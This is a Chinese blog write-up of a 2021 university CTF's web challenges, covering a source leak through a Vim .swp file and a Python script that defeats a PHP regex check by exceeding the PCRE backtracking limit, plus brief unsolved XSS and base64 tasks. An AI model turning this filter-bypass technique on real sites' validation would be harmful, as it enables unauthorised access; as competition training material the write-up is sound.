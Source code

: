 ```yaml
---
title: NUAA CTF 2021 Web Write up
date: 2021-04-10 20:23:04
categories:	CTF
tags:	CTF
---
```


# NUAA CTF 2021 Web Write up

第一场正式的的CTF比赛WP

<!--more-->

## 签到题
打开环境，查看网页源代码，即发现flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328195900666.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_20,color_FFFFFF,t_70)


## DDoSme
打开环境，提示Do you kNow .swp file? 直接百度，查到
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204502583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)

于是知道会要用到Linux
用dirsearch扫一下网站目录，发现了.index.php.swp文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204551203.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)


地址栏URL后面输入`.index.php.swp`下载swp文件
这个时候用notepad打开发现全是乱码，百度发现
![](https://img-blog.csdnimg.cn/20210328200950634.png)

于是复制到Linux虚拟机中，

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204652570.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)


再
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328201104698.png)

得到还原后的PHP文件

```php
<?php
function areyouok($greeting){
    return preg_match('/Baby.*PHP/is',$greeting);
}

$greeting=@$_POST['greeting'];
if(!is_array($greeting)){
    if(!areyouok($greeting)){
        if(strpos($greeting,'Baby PHP')!==false){
            echo 'flag{xxxxxx}';
        }else{
            echo 'Do you kNow .swp file?';
        }
    }else{
        echo 'Do you know PHP?';
    }
}
?>

```
emmm…PHP学的还不多，看不懂，果断度娘，发现……竟然跟18年i春秋圣诞欢乐赛题一样…原理就是pcre具有回溯上限，当回溯超过上限时返回 false，从而绕过正则匹配函数(虽然俺不懂，但俺会CV大法)
链接:[2018年i春秋圣诞欢乐赛Web WP](https://www.jianshu.com/p/68f3c8e5d2b4)
然后通过Python写个脚本：

```python
import requests
from io import BytesIO

files = {
  'greeting':('Baby PHP' + 'a' * 1000000)
}

res = requests.post('http://server.cooook.icu:10003/index.php', data=files, allow_redirects=False)
print(res.text)
```
运行之后，成功拿到flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204722851.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_32,color_FFFFFF,t_70)


## easy_xss
看题目知道是xss跨站脚本漏洞攻击
题目要求是：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328201752270.png)
扫了下网站
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328201935905.png)
看到了upload.php，试了一下emmm确实打不开
所以要登入管理员界面，xss攻击，想到了窃取cookie绕过登录，
而且正好点开Read sample post出现了管理员发表的文章

然后..就卡住了(っ °Д °)っ
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328204809754.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_64,color_FFFFFF,t_70)


## base64

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021032821021262.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_32,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210328210244539.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_SGFpcnNoZWVw,size_48,color_FFFFFF,t_70)
emmm……PHP，Base64，这俩合一起....看了度娘都看不懂...毫无思路


比完赛，感觉 我是废物（；´д｀）ゞ

